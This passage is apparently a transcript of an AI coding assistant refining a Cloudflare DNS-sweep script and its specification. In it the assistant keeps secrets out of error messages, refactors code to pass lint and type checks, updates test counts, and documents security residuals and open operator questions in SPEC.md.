E        +    where StartupError("where: this script resolves only <{env NAME} and <{secret env NAME} substitutions (each with an optional...t a literal or an environment-backed value there.  (The rest of the body is withheld: a default can be a credential.)") = <ExceptionInfo StartupError("where: this script resolves only <{env NAME} and <{secret env NAME} substitutions (each w...al or an environment-backed value there.  (The rest of the body is withheld: a default can be a credential.)") tblen=4>.value

tests/unit/test_find_platform_domains_cloudflare.py:132: AssertionError
=========================== short test summary info ============================
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_resolve_config_value_rejects_a_substitution_it_cannot_resolve
1 failed, 59 passed in 0.40s
Shell cwd was reset to /workspace
```

## Assistant

The strip of `secret` left the secret's *path* in the message — leaking the body it's meant to withhold. Reporting only the substitution **form**:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\ns = s.replace('''    if argv[:1] == [\"secret\"]:\n        argv = argv[1:]''',\n'''    # The FORM only (the leading keywords, never an argument): \"secret aws\", \"umich\", \"env\".\n    # argv[:2] AFTER the strip below would still carry the secret's path.\n    form = \" \".join(argv[:2]) or \"(empty)\"\n    if argv[:1] == [\"secret\"]:\n        argv = argv[1:]''')\ns = s.replace('''            f\"substitutions (each with an optional default), not \"\n            f\"'{' '.join(argv[:2]) or '(empty)'}'.  Put a literal or an environment-backed value \"\n            \"there.  (The rest of the body is withheld: a default can be a credential.)\")''',\n'''            f\"substitutions (each with an optional default), not '{form}'.  Put a literal or \"\n            \"an environment-backed value there.  (The rest of the body is withheld: an inline \"\n            \"default can be a credential.)\")''')\np.write_text(s)\nprint(\"form-only message applied\")\nPY\ncp find-platform-domains-cloudflare probe/ && cd probe && chmod +x find-platform-domains-cloudflare && source /workspace/.venv/bin/activate && python -m pytest tests/unit -q -p no:cacheprovider 2>&1 | tail -4 && uvx ruff@0.15.22 check --config ./pyproject.toml find-platform-domains-cloudflare && uvx pyright@1.1.411 --outputjson --level error find-platform-domains-cloudflare.py 2>/dev/null | python -c \"import json,sys; print('pyright:', json.load(sys.stdin)['summary'])\"",
  "description": "Re-run all gates"
}
```

### ↳ Tool result

```
Exit code 1
form-only message applied
............................................................             [100%]
60 passed in 0.28s
C901 `fetch_platform_cnames` is too complex (11 > 10)
   --> find-platform-domains-cloudflare:404:5
    |
404 | def fetch_platform_cnames(client, *, verbose=False):
    |     ^^^^^^^^^^^^^^^^^^^^^
405 |     """Walk every account -> zone -> DNS record and collect the platform-domain CNAMEs.
    |

Found 1 error.
```

## Assistant

60 pass, but the guard additions pushed `fetch_platform_cnames` past the complexity gate. Extracting the account/zone half rather than `noqa`-ing it:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\n\nold = s[s.index(\"def fetch_platform_cnames(client, *, verbose=False):\"):s.index(\"def build_arg_parser():\")]\nnew = '''def list_zones(client, warn):\n    \"\"\"Every zone across every account the credentials can see, cross-checked like the records.\n\n    Returns (accounts, zones, zone_lists_checked, account_list_checked).  Zero zones is fatal,\n    copied from fqdns.py's reasoning: with the scope missing, \"no zones\" and \"no matching\n    records\" write an identical empty file, and a silently empty file is the one failure mode\n    this script must not have.  The message names BOTH scopes because an accounts list that comes\n    back empty yields zero zones just as a missing DNS:Read does.\n    \"\"\"\n    try:\n        accounts, account_checked = read_all(client.accounts.list, \"the account list\", warn)\n        zones = []\n        zone_lists_checked = 0\n        for account in accounts:\n            # The default argument binds this account's id at definition time; a bare closure\n            # over the loop variable would re-read the LAST account on every retry (ruff B023).\n            got, checked = read_all(\n                lambda account_id=account.id: client.zones.list(account={\"id\": account_id}),\n                f\"the zone list for account {account.id}\", warn)\n            zone_lists_checked += 1 if checked else 0\n            zones.extend(got)\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing accounts/zones failed: {api_error_text(e)}\") from e\n\n    if not zones:\n        raise StartupError(\n            f\"Cloudflare returned {len(accounts)} account(s) but 0 zones -- the credentials \"\n            \"likely lack Account:Read or DNS:Read (an accounts list that comes back empty \"\n            \"yields zero zones too).\")\n    return accounts, zones, zone_lists_checked, 1 if account_checked else 0\n\n\ndef fetch_platform_cnames(client, *, verbose=False):\n    \"\"\"Walk every account -> zone -> DNS record and collect the platform-domain CNAMEs.\n\n    No `proxied=` filter and no `type=` filter on the record list: every record in every zone is\n    fetched and inspected here.  That is what \"consider all DNS records\" means, and per the spec\n    no work goes into making it faster.  (If a run ever becomes painful, type=\"CNAME\" on the\n    records list call is the one-word change.)\n\n    `client.dns.records.list()` returns a page-numbered paginator -- iterating it walks every\n    page, stopping when a page comes back empty -- so a single call is N HTTP requests.  A\n    truncated walk would write a silently incomplete file, so every list this function reads goes\n    through read_all's total_count cross-check.\n\n    Records are read one zone at a time rather than one record at a time: a re-read has to be\n    able to replace a whole zone's list, and the largest single zone is a trivial amount of\n    memory next to the whole organization's records.\n    \"\"\"\n    def note(message):\n        \"\"\"Per-zone progress: -v only.\"\"\"\n        if verbose:\n            print(message, file=sys.stderr, flush=True)\n\n    def warn(message):\n        \"\"\"Re-read notices: ALWAYS printed.  A re-read means the data moved mid-sweep.\"\"\"\n        print(message, file=sys.stderr, flush=True)\n\n    accounts, zones, zone_lists_checked, account_list_checked = list_zones(client, warn)\n    tally = {\"records\": 0, \"checked\": 0}\n\n    def zone_records():\n        \"\"\"(zone_id, record) pairs, one zone at a time.\"\"\"\n        for number, zone in enumerate(zones, start=1):\n            records, checked = read_all(\n                lambda zone_id=zone.id: client.dns.records.list(zone_id=zone_id),\n                f\"the record list for zone {zone.name}\", warn)\n            tally[\"records\"] += len(records)\n            tally[\"checked\"] += 1 if checked else 0\n            note(f\"[{number}/{len(zones)}] zone {zone.name} -- {len(records)} records\"\n                 f\"{'' if checked else ' (total_count unavailable, not cross-checked)'}\")\n            for dns_record in records:\n                yield zone.id, dns_record\n\n    try:\n        entries, warnings = collect_entries(zone_records())\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing DNS records failed: {api_error_text(e)}\") from e\n\n    return SweepResult(entries, warnings, len(accounts), len(zones), tally[\"records\"],\n                       tally[\"checked\"], zone_lists_checked, account_list_checked)\n\n\n'''\ns = s.replace(old, new)\np.write_text(s)\nprint(\"extracted list_zones\")\nPY\ncp find-platform-domains-cloudflare probe/ && cd probe && chmod +x find-platform-domains-cloudflare && source /workspace/.venv/bin/activate && python -m pytest tests/unit -q -p no:cacheprovider 2>&1 | tail -3 && uvx ruff@0.15.22 check --config ./pyproject.toml find-platform-domains-cloudflare && uvx pyright@1.1.411 --outputjson --level error find-platform-domains-cloudflare.py 2>/dev/null | python -c \"import json,sys; print('pyright:', json.load(sys.stdin)['summary'])\"",
  "description": "Extract list_zones and re-run gates"
}
```

### ↳ Tool result

```
extracted list_zones
............................................................             [100%]
60 passed in 0.26s
All checks passed!
pyright: {'filesAnalyzed': 1, 'errorCount': 0, 'warningCount': 0, 'informationCount': 0, 'timeInSec': 0.924}
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, re, subprocess, shutil\nfull  = pathlib.Path(\"find-platform-domains-cloudflare\").read_text()\ntests = pathlib.Path(\"test_find_platform_domains_cloudflare.py\").read_text()\nheader = full[:full.index(\"import argparse\")]\nrest   = full[full.index(\"PLATFORM_SUFFIX =\"):]\nall_imports = full[full.index(\"import argparse\"):full.index(\"PLATFORM_SUFFIX =\")].strip() + \"\\n\"\nSTOPS = {1: \"def resolve_env_marker\", 2: \"def plain(\", 3: \"def write_json_atomic\",\n         4: \"def expected_record_count\", 5: None}\nBASE2 = \"import os\\nimport re\\nimport shlex\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\"\nBASE4 = \"import json\\nimport os\\nimport re\\nimport shlex\\nimport tempfile\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\"\nIMPORTS = {1: \"import re\\n\", 2: BASE2, 3: BASE2, 4: BASE4, 5: all_imports}\nT1 = \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\"\nT3 = \"import importlib.util\\nimport json\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\"\nTIMPORTS = {1: T1, 2: T1, 3: T3, 4: T3, 5: T3}\nt_head = tests[:tests.index(\"import importlib.util\")]\nt_body = tests[tests.index(\"pytestmark = pytest.mark.unit\"):]\nt_marks = [m.start() for m in re.finditer(r\"^# --- Task \\d\", t_body, re.M)] + [len(t_body)]\n\nshutil.rmtree(\"stage\", ignore_errors=True)\ncounts = []\nfor task in (1, 2, 3, 4, 5):\n    d = pathlib.Path(f\"stage/task{task}\"); (d / \"tests/unit\").mkdir(parents=True)\n    shutil.copy(\"probe/pyproject.toml\", d / \"pyproject.toml\")\n    stop = STOPS[task]\n    body = rest if stop is None else rest[:rest.index(stop)]\n    f = d / \"find-platform-domains-cloudflare\"\n    f.write_text(header + IMPORTS[task] + \"\\n\" + body.rstrip() + \"\\n\"); f.chmod(0o755)\n    (d / \"tests/unit/test_find_platform_domains_cloudflare.py\").write_text(\n        (t_head + TIMPORTS[task] + \"\\n\" + t_body[:t_marks[task]]).rstrip() + \"\\n\")\n    r = subprocess.run([\"uvx\",\"ruff@0.15.22\",\"check\",\"--output-format\",\"concise\",\".\"],\n                       capture_output=True, text=True, cwd=d)\n    lint = \"clean\" if \"All checks passed\" in r.stdout else r.stdout.strip()\n    q = subprocess.run([\"python\",\"-m\",\"pytest\",\"tests/unit\",\"-q\",\"-p\",\"no:cacheprovider\"],\n                       capture_output=True, text=True, cwd=d)\n    print(f\"Task {task}: lint {lint:<8} {q.stdout.strip().splitlines()[-1]}\")\n    counts.append(q.stdout.strip().splitlines()[-1])\n\n# refresh the slices used to splice into the SPEC\nidx = [rest.index(STOPS[i]) for i in (1,2,3,4)]\nS = {1: header + \"import re\\n\\n\" + rest[:idx[0]].rstrip(), 2: rest[idx[0]:idx[1]].rstrip(),\n     3: rest[idx[1]:idx[2]].rstrip(), 4: rest[idx[2]:idx[3]].rstrip(), 5: rest[idx[3]:].rstrip()}\nT = {1: (t_head + T1 + \"\\n\" + t_body[:t_marks[1]]).rstrip(), 2: t_body[t_marks[1]:t_marks[2]].rstrip(),\n     3: t_body[t_marks[2]:t_marks[3]].rstrip(), 4: t_body[t_marks[3]:t_marks[4]].rstrip(),\n     5: t_body[t_marks[4]:].rstrip()}\npathlib.Path(\"slices.py\").write_text(\"S = \" + repr(S) + \"\\nT = \" + repr(T) + \"\\n\")\nprint(\"slices refreshed\")\nPY",
  "description": "Re-stage every checkpoint and refresh slices"
}
```

### ↳ Tool result

```
Task 1: lint clean    8 passed in 0.10s
Task 2: lint clean    25 passed in 0.25s
Task 3: lint clean    37 passed in 0.26s
Task 4: lint clean    40 passed in 0.26s
Task 5: lint clean    60 passed in 0.31s
slices refreshed
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "ls /workspace/CONTEXT.md 2>/dev/null && grep -n -A2 \"Custom domain\" /workspace/CONTEXT.md | head -8; echo \"=== bad refs in the script:\"; grep -n \"section 5.4\\|section 6 does not use\\|section 8.4\\|section R6\" /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/find-platform-domains-cloudflare",
  "description": "Check CONTEXT.md and stale refs in code"
}
```

### ↳ Tool result

```
/workspace/CONTEXT.md
74:**Custom domain**:
75-A hostname a site owner connected to a site environment (`example.umich.edu`). Pantheon
76-labels these `type: custom`. Primary domains are custom domains.
=== bad refs in the script:
85:        # ValueError escapes main() as a raw traceback at exit 1 -- a code section 6 does not use.
173:        # TOMLDecodeError, and escaped as a raw traceback at exit 1 (a code section R6 does not
509:    the interpreter's shutdown flush; that is accepted and documented in SPEC section 5.4.
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\ns = s.replace(\"# ValueError escapes main() as a raw traceback at exit 1 -- a code section 6 does not use.\",\n              \"# ValueError escapes main() as a raw traceback at exit 1 -- a code SPEC R6 does not use.\")\ns = s.replace(\"that is accepted and documented in SPEC section 5.4.\",\n              \"that is accepted and documented in SPEC section 8, item 4.\")\ns = s.replace(\"(a code section R6 does not\\n        # use)\", \"(a code SPEC R6 does not\\n        # use)\")\np.write_text(s)\nprint(\"refs fixed:\", \"section 5.4\" not in s and \"section 6 does not\" not in s)\nPY\ncp find-platform-domains-cloudflare probe/ && cd probe && source /workspace/.venv/bin/activate && python -m pytest tests/unit -q -p no:cacheprovider 2>&1|tail -2 && echo \"=== T201 count without the ignores:\" && uvx ruff@0.15.22 check --config /workspace/pyproject.toml --output-format concise find-platform-domains-cloudflare 2>&1 | grep -c T201",
  "description": "Fix the dangling refs and recount T201"
}
```

### ↳ Tool result

```
refs fixed: True
............................................................             [100%]
60 passed in 0.26s
=== T201 count without the ignores:
9
Shell cwd was reset to /workspace
```

## Assistant

T201 is now 9. Re-slicing and applying all the round-3 prose updates:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, re\nfull  = pathlib.Path(\"find-platform-domains-cloudflare\").read_text()\ntests = pathlib.Path(\"test_find_platform_domains_cloudflare.py\").read_text()\nheader = full[:full.index(\"import argparse\")]\nrest   = full[full.index(\"PLATFORM_SUFFIX =\"):]\nSTOPS = [\"def resolve_env_marker\", \"def plain(\", \"def write_json_atomic\", \"def expected_record_count\"]\nidx = [rest.index(x) for x in STOPS]\nS = {1: header + \"import re\\n\\n\" + rest[:idx[0]].rstrip(), 2: rest[idx[0]:idx[1]].rstrip(),\n     3: rest[idx[1]:idx[2]].rstrip(), 4: rest[idx[2]:idx[3]].rstrip(), 5: rest[idx[3]:].rstrip()}\nt_head = tests[:tests.index(\"import importlib.util\")]\nT1 = \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\"\nt_body = tests[tests.index(\"pytestmark = pytest.mark.unit\"):]\nm = [x.start() for x in re.finditer(r\"^# --- Task \\d\", t_body, re.M)] + [len(t_body)]\nT = {1: (t_head + T1 + \"\\n\" + t_body[:m[1]]).rstrip(), 2: t_body[m[1]:m[2]].rstrip(),\n     3: t_body[m[2]:m[3]].rstrip(), 4: t_body[m[3]:m[4]].rstrip(), 5: t_body[m[4]:].rstrip()}\n\nsp = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\")\nspec = sp.read_text()\nblocks = list(re.finditer(r\"```python\\n(.*?)```\", spec, re.S))\nrepl = {}\nfor b in blocks:\n    h = b.group(1).lstrip().splitlines()[0]\n    for key, val in (('\"\"\"Offline tests', T[1]), (\"#!/usr/bin/env python\", S[1]),\n                     (\"# --- Task 2\", T[2]), (\"def resolve_env_marker\", S[2]),\n                     (\"# --- Task 3\", T[3]), (\"def plain(\", S[3]),\n                     (\"# --- Task 4\", T[4]), (\"def write_json_atomic\", S[4]),\n                     (\"# --- Task 5\", T[5]), (\"def expected_record_count\", S[5])):\n        if h.startswith(key):\n            repl[b.span()] = val\n            break\nfor (a, z), new in sorted(repl.items(), reverse=True):\n    spec = spec[:a] + \"```python\\n\" + new.rstrip() + \"\\n```\" + spec[z:]\nsp.write_text(spec)\nprint(f\"spliced {len(repl)} blocks\")\nPY",
  "description": "Splice the round-3 code into the spec"
}
```

### ↳ Tool result

```
spliced 10 blocks
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\nsub = [\n # counts\n (\"fully offline, 55 tests.\", \"fully offline, 60 tests.\"),\n (\"fully offline, **55 tests**.\", \"fully offline, **60 tests**.\"),\n (\"Task 1: lint clean    8 passed\\nTask 2: lint clean   24 passed\\nTask 3: lint clean   36 passed\\nTask 4: lint clean   39 passed\\nTask 5: lint clean   55 passed\",\n  \"Task 1: lint clean    8 passed\\nTask 2: lint clean   25 passed\\nTask 3: lint clean   37 passed\\nTask 4: lint clean   40 passed\\nTask 5: lint clean   60 passed\"),\n (\"Expected: **24 passed** (8 + 16 here\", \"Expected: **25 passed** (8 + 17 here\"),\n (\"Expected: **36 passed** (24 + 12 here\", \"Expected: **37 passed** (25 + 12 here\"),\n (\"Expected: **39 passed** (36 + 3 here\", \"Expected: **40 passed** (37 + 3 here\"),\n (\"Expected: **55 passed** (39 + 16 here\", \"Expected: **60 passed** (40 + 20 here\"),\n (\"(8 / 24 / 36 / 39 / 55)\", \"(8 / 25 / 37 / 40 / 60)\"),\n (\"green; 55 new tests\", \"green; 60 new tests\"),\n # T201\n (\"# -> 7 errors, all T201.\", \"# -> 9 errors, all T201.\"),\n (\"Measured: exactly **7 × T201**\", \"Measured: exactly **9 × T201**\"),\n (\"**7 × T201 with the two per-file-ignores entries\\nremoved**\", \"**9 × T201 with the two per-file-ignores entries\\nremoved**\"),\n (\"proven load-bearing (7 × T201 without them)\", \"proven load-bearing (9 × T201 without them)\"),\n # glossary: defer to CONTEXT.md (PD#11)\n (\"| **custom domain** | A hostname an institution owns that points at a platform domain. |\",\n  \"| **custom domain** | As `CONTEXT.md` defines it — *\\\"a hostname a site owner connected to a site environment\\\"*. Not redefined here; this script sees them from the Cloudflare side. |\"),\n (\"| **DNS-only** | A record with `proxied: false`. Invisible to `fqdns.json`, which is built with `proxied=True`. |\",\n  \"| **DNS-only** | A record with `proxied: false` — **definitely** false, not merely unknown (R5). Invisible to `fqdns.json`, which is built with `proxied=True`. Add this term to `CONTEXT.md` when the utility lands (PD#11). |\"),\n # module layout\n (\"| `expected_record_count`, `read_all`, `api_error_text`, `SweepResult`, `fetch_platform_cnames`, `build_arg_parser`, `main`, `__main__` guard | 5 | R3, R6, R1 |\",\n  \"| `expected_record_count`, `read_all`, `api_error_text`, `SweepResult`, `list_zones`, `fetch_platform_cnames`, `build_arg_parser`, `main`, `__main__` guard | 5 | R3, R6, R1 |\\n\\nThe finished top-of-file import block, as the target state the five per-task additions build up to:\\n\\n```python\\nimport argparse\\nimport json\\nimport os\\nimport re\\nimport shlex\\nimport sys\\nimport tempfile\\nimport tomllib\\nfrom pathlib import Path\\nfrom typing import NamedTuple\\n\\nimport cloudflare  # for cloudflare.CloudflareError\\nfrom cloudflare import Cloudflare\\n```\"),\n]\nn = 0\nfor a, b in sub:\n    if a in t:\n        t = t.replace(a, b); n += 1\n    else:\n        print(\"NOT FOUND:\", a[:70])\np.write_text(t)\nprint(f\"applied {n}/{len(sub)}\")\nPY",
  "description": "Apply count and terminology updates"
}
```

### ↳ Tool result

```
applied 16/16
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\nsub = [\n# --- R3: no-op on BOTH reads; coverage for all three lists; the blind spot -----------------\n(\"\"\"- **When `total_count` is absent the check no-ops** rather than guessing, so it can never abort a\n  healthy sweep. `read_all` returns whether it was live and `main()` reports the coverage: a guard\n  that silently never ran looks exactly like one that ran and found nothing wrong (§6).\"\"\",\n \"\"\"- **When `total_count` is absent the check no-ops** rather than guessing, so it can never abort a\n  healthy sweep. **This applies to BOTH reads**: a re-read that comes back complete but without a\n  `total_count` returns its items and is counted as *unchecked*. Guessing there aborted a healthy\n  sweep while reporting `truncated … of None` (§13, round 3).\n- **The guard reports its own liveness for every list it reads** — record lists, per-account zone\n  lists, and the account list — because a guard that silently never ran looks exactly like one\n  that ran and found nothing wrong (§6).\n- **Stated residual:** the re-read accepts any second read that agrees with **its own**\n  `total_count`. A truncation whose `total_count` is derived from the same truncated query would\n  be self-consistent and accepted as a concurrent change. The guard therefore catches a\n  *disagreement between count and content*, not a server lying consistently. Both reads' counts\n  appear in the notice so an operator can judge; §14 Q3 asks whether any fired.\"\"\"),\n(\"\"\"  and send the operator hunting an API bug.\"\"\",\n \"\"\"  and send the operator hunting an API bug. **The notice is printed at default verbosity**, not\n  under `-v`: a re-read means the data moved under the sweep, which an operator wants to see on\n  every run.\"\"\"),\n# --- R5: proxied may be null --------------------------------------------------------------\n(\"\"\"- **First-record-wins** for every scalar; `origins` accumulates, so a name matching more than once\n  stays visible in the file and not only in the warning.\"\"\",\n \"\"\"- **First-record-wins** for every scalar; `origins` accumulates, so a name matching more than once\n  stays visible in the file and not only in the warning.\n- **`proxied` is stored verbatim and MAY be `null`.** It is `Optional[bool]` on every record\n  model, and `research.md` is explicit that *\"`proxied: true` is the load-bearing field in both\n  directions. A record created DNS-only would take the hostname out of certificate service\"*. An\n  unknown coerced to `false` would both inflate the headline DNS-only count and instruct a\n  rewriter to re-create a proxied hostname unproxied — a TLS outage caused by an unreported\n  coercion. The DNS-only tally counts `proxied is False` only, and any `null` is named in an\n  `ATTENTION:` line. A rewriter **MUST NOT** treat `null` as `false`.\"\"\"),\n# --- R6: non-UTF-8 + the loud-crash path --------------------------------------------------\n(\"\"\"| 2 | could not complete: config unreadable / not TOML,\"\"\",\n \"\"\"| 2 | could not complete: config unreadable / not TOML **/ not UTF-8**,\"\"\"),\n(\"\"\"whole multi-minute walk) and a `ValueError`\nfrom `shlex.split` on an unbalanced quote. Both are now named conversions to `StartupError`, both\ntested (§13).\"\"\",\n \"\"\"whole multi-minute walk) and a `ValueError`\nfrom `shlex.split` on an unbalanced quote — and a third in round 3: `tomllib.load` decodes the\nbytes itself, so a non-UTF-8 config raises `UnicodeDecodeError`, which is **not** a\n`TOMLDecodeError`. That one is fixed by widening the clause to their common base, `ValueError` —\nclosing the *class* rather than a third instance. All three are tested (§13).\n\n**What this table does not claim:** an *unexpected* exception still exits 1 with a traceback.\nThat is the deliberate loud-crash path — the taxonomy covers every failure the program\n*anticipates*, and anything else is a bug that should be visible as one, not swallowed into a\ntidy exit code.\"\"\"),\n# --- §6 observability -----------------------------------------------------------------\n(\"\"\"| default | duplicate-name `ATTENTION:` warnings; the summary (entries, **DNS-only count**, records read, zones, accounts, path); the **truncation cross-check coverage** line; the zero-match `ATTENTION:`; one `ERROR:` line on failure |\"\"\",\n \"\"\"| default | duplicate-name `ATTENTION:` warnings; **every re-read notice** (a re-read means the data moved mid-sweep); the summary (entries, **DNS-only count**, records read, zones, accounts, path); the **truncation cross-check coverage** line, covering all three list kinds; an `ATTENTION:` naming any entry whose `proxied` is `null`; the zero-match `ATTENTION:`; one `ERROR:` line on failure |\"\"\"),\n(\"\"\"- **The guard reports its own coverage** at default verbosity —\n  `Truncation cross-check active for 41 of 43 zones.` This is what makes §14 Q1 answerable; a\n  guard whose liveness is invisible is not a guard.\"\"\",\n \"\"\"- **The guard reports its own coverage** at default verbosity, for **all three** list kinds —\n  `Truncation cross-check active for 41 of 43 record lists, 2 of 2 zone lists, and 1 of 1 account\n  list.` Reporting only the record lists would leave the *zone*-list guard — the one R3 calls\n  \"strictly worse\" to lose — silently unaccounted for. This is what makes §14 Q1 answerable; a\n  guard whose liveness is invisible is not a guard.\"\"\"),\n]\nn = 0\nfor a, b in sub:\n    if a in t:\n        t = t.replace(a, b); n += 1\n    else:\n        print(\"NOT FOUND:\", a[:70].replace(\"\\n\", \" \"))\np.write_text(t)\nprint(f\"applied {n}/{len(sub)}\")\nPY",
  "description": "Update R3, R5, R6 and observability prose"
}
```

### ↳ Tool result

```
NOT FOUND: whole multi-minute walk) and a `ValueError` from `shlex.split` on an u
applied 6/7
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"shlex.split\\` on an unbalanced quote\" development/2026-07-30-platform-domain-util2/SPEC.md | head -3; echo \"---\"; sed -n '/measured paths escaped it in the first draft/,/tested (§13)/p' development/2026-07-30-platform-domain-util2/SPEC.md | head -8",
  "description": "Locate the exact R6 wording"
}
```

### ↳ Tool result

```
417:whole multi-minute walk) and a `ValueError` from `shlex.split` on an unbalanced quote. Both are
---
measured paths escaped it in the first draft: an `OSError` from the write (landing *after* the
whole multi-minute walk) and a `ValueError` from `shlex.split` on an unbalanced quote. Both are
now named conversions to `StartupError`, both tested (§13).
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\nold = \"\"\"whole multi-minute walk) and a `ValueError` from `shlex.split` on an unbalanced quote. Both are\nnow named conversions to `StartupError`, both tested (§13).\"\"\"\nnew = \"\"\"whole multi-minute walk) and a `ValueError` from `shlex.split` on an unbalanced quote — and a\nthird in round 3: `tomllib.load` decodes the bytes itself, so a non-UTF-8 config raises\n`UnicodeDecodeError`, which is **not** a `TOMLDecodeError`. That one is fixed by widening the\nclause to their common base, `ValueError` — closing the *class* rather than adding a third\ninstance. All three are named conversions to `StartupError`, all three tested (§13).\n\n**What this table does not claim:** an *unexpected* exception still exits 1 with a traceback.\nThat is the deliberate loud-crash path — the taxonomy covers every failure the program\n*anticipates*, and anything else is a bug that should stay visible as one rather than be\nswallowed into a tidy exit code.\"\"\"\nassert old in t\np.write_text(t.replace(old, new))\nprint(\"R6 updated\")\nPY",
  "description": "Apply the R6 update"
}
```

### ↳ Tool result

```
R6 updated
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\nsub = [\n# --- F7: R2a residual, honestly scoped ----------------------------------------------------\n(\"\"\"> **Out of scope, report to the operator:** `plugin/cloudflare/client.py`'s `build_client()` has\"\"\",\n \"\"\"**Stated residual — the table above is exhaustive for the routes the *SDK* opens, not for the\nambient environment as a whole.** The SDK builds its httpx client with `trust_env=True`\n(measured), so `HTTPS_PROXY` mounts a proxy transport and `SSL_CERT_FILE` / `SSL_CERT_DIR`\nredirect trust-store resolution. A proxy plus an attacker-controlled CA reaches the same outcome\nroute 4 is called \"strictly worse\" for. **Deliberately left open**, because closing it with\n`http_client=httpx.Client(trust_env=False)` would also break every legitimate deployment behind a\ncorporate proxy — a cost this temporary utility should not impose unilaterally. What *is* closed:\nan `SSL_CERT_FILE` pointing at a missing path made the constructor raise `FileNotFoundError`,\nanother unnamed escape to exit 1, now converted to a `StartupError`. If the operator wants\n`trust_env=False`, it is a one-line change and a one-line test.\n\n> **Out of scope, report to the operator:** `plugin/cloudflare/client.py`'s `build_client()` has\"\"\"),\n# --- F8: PD#7 decision, and F7's decision, into NOT-in-scope --------------------------------\n(\"\"\"11. **Guarding the count of *matching* records.** Only list completeness is guarded; there is no\n    expected number of platform CNAMEs to check against.\"\"\",\n \"\"\"11. **Guarding the count of *matching* records.** Only list completeness is guarded; there is no\n    expected number of platform CNAMEs to check against.\n12. **Resumability after a partial run (PD#7).** A transient failure on zone 40 of 43 — past the\n    SDK's own two automatic retries — or a Ctrl-C, discards the whole sweep; there is no partial\n    artifact and no `--resume-from`. **Deliberate:** the output file must be internally\n    consistent (a partial one would silently under-report, the failure mode this whole design is\n    organized against), the sweep is read-only and idempotent, and the only cost of a re-run is\n    time. The sibling utility needed resume because its sweep is ~38 minutes of *per-site* work\n    with a CSV growing on stdout; this one writes a single file at the end. **Revisit if §12's\n    measured runtime is large** — that is §14 Q2.\n13. **`trust_env=False` on the SDK's HTTP client.** See R2a's stated residual: it would close the\n    proxy / trust-store routes but break legitimate proxied deployments. Recorded as the\n    operator's call, not taken unilaterally.\"\"\"),\n# --- §12: new fields ----------------------------------------------------------------------\n(\"\"\"- Zones the truncation cross-check could cover (`N of M`):\n- Any re-reads triggered, and how each resolved:\"\"\",\n \"\"\"- Truncation cross-check coverage (record lists `N of M`, zone lists `N of M`, account list):\n- Any re-reads triggered, and how each resolved:\n- Entries with an unknown (`null`) proxy status:\"\"\"),\n# --- §14: new questions -------------------------------------------------------------------\n(\"\"\"9. Has `plugin/cloudflare/client.py`'s R2a defect been filed or fixed in the main program?\n   `$CLOUDFLARE_BASE_URL` is exploitable against it today.\"\"\",\n \"\"\"9. Has `plugin/cloudflare/client.py`'s R2a defect been filed or fixed in the main program?\n   `$CLOUDFLARE_BASE_URL` is exploitable against it today.\n10. Did any entry come back with a `null` proxy status? If so, the rewriter needs an explicit\n    rule before it touches those hostnames — `null` is not `false` (R5).\n11. Should the client be built with `trust_env=False` (R2a's stated residual)? That is an\n    operator decision about proxied deployments, deferred rather than taken here.\n12. Was a re-run ever needed after a partial failure? If the measured runtime makes that\n    expensive, §8.12's no-resume decision should be revisited.\"\"\"),\n]\nn = 0\nfor a, b in sub:\n    if a in t:\n        t = t.replace(a, b, 1); n += 1\n    else:\n        print(\"NOT FOUND:\", a[:70].replace(\"\\n\", \" \"))\np.write_text(t)\nprint(f\"applied {n}/{len(sub)}\")\nPY",
  "description": "Apply R2a residual, scope decisions, and audit questions"
}
```

### ↳ Tool result

```
applied 4/4
```

## Assistant

